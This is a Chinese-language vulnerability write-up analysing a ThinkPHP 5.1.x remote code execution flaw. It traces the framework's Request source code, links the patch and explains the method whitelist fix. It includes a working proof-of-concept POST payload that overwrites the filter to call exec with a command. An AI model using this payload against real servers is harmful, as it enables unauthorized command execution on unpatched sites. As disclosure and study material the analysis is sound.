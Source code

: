 # ThinkPHP 5.1.x-5.2.x全版本RCE 漏洞分析



## 影响范围

5.1.x-5.1.32  5.2.x(这个还没去看)



## 漏洞复现

补丁: https://github.com/top-think/framework/commit/2454cebcdb6c12b352ac0acd4a4e6b25b31982e6 

测试环境 5.1.29

**入口处关闭报错** 

![image.png](https://i.loli.net/2020/01/30/2x4QWZYgmXjqo8r.png)



和5.0.x版本的漏洞有着相似之处,都是`$this->method`方法未过滤导致的任意变量覆盖,从而导致命令执行

通过`$_POST['_method']=xxxxx`来进行任意变量覆盖

我们选择覆盖`$this->filter`,翻找Request类中的函数发现还是`Request::input`处可以命令执行,下断点可以看到调用堆栈



![image.png](https://i.loli.net/2020/01/30/dVyPeZHbYM3TFq7.png)



我们从`Request::param`处开始分析

```php
public function param($name = '', $default = null, $filter = '')
    {
        if (!$this->mergeParam) {
            $method = $this->method(true);

            // 自动获取请求变量
            switch ($method) {
                case 'POST':
                    $vars = $this->post(false);
                    break;
                case 'PUT':
                case 'DELETE':
                case 'PATCH':
                    $vars = $this->put(false);
                    break;
                default:
                    $vars = [];
            }

            // 当前请求参数和URL地址中的参数合并
            $this->param = array_merge($this->param, $this->get(false), $vars, $this->route(false));

            $this->mergeParam = true;
        }

        ...
    }
```

因为是POST请求所以会进入POST分支,跟进`Request::post`

```php
	public function post($name = '', $default = null, $filter = '')
    {
        if (empty($this->post)) {
            $this->post = !empty($_POST) ? $_POST : $this->getInputData($this->input);
        }

        return $this->input($this->post, $name, $default, $filter);
    }
```

接着便会调用`Request::input`,其中`$this->post`和`$filter`可控

跟进`Request::input`

```php
public function input($data = [], $name = '', $default = null, $filter = '')
    {
		...

        // 解析过滤器
        $filter = $this->getFilter($filter, $default);

        if (is_array($data)) {
            array_walk_recursive($data, [$this, 'filterValue'], $filter);
            reset($data);
        } else {
            $this->filterValue($data, $name, $filter);
        }

       ...
    }
```

因为`$data`是数组(`$_POST`),调用`array_walk_recursive($data, [$this, 'filterValue'], $filter);`

对`$data`中所有值调用`Request::filterValue`

跟进去

```php
private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);

        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
            } elseif (is_scalar($value)) {
                if (false !== strpos($filter, '/')) {
                    // 正则过滤
                    if (!preg_match($filter, $value)) {
                        // 匹配不成功返回默认值
                        $value = $default;
                        break;
                    }
                } elseif (!empty($filter)) {
                    // filter函数不存在时, 则使用filter_var进行过滤
                    // filter为非整形值时, 调用filter_id取得过滤id
                    $value = filter_var($value, is_int($filter) ? $filter : filter_id($filter));
                    if (false === $value) {
                        $value = $default;
                        break;
                    }
                }
            }
        }

        return $value;
    }
```

阅读代码可知,filterValue会对`$_POST`中所有值调用`$filter`中每一个可以调用的函数或方法

且`$filter`=`$_POST`

因此有



```
http://127.0.0.1/public/
POST:  var1=exec&var2=calc.exe&_method=filter
```



## 补丁分析

对method进行了白名单限制

## 参考

 [https://www.smi1e.top/thinkphp-5-1-x5-2-x全版本-rce-漏洞分析/](https://www.smi1e.top/thinkphp-5-1-x5-2-x全版本-rce-漏洞分析/) 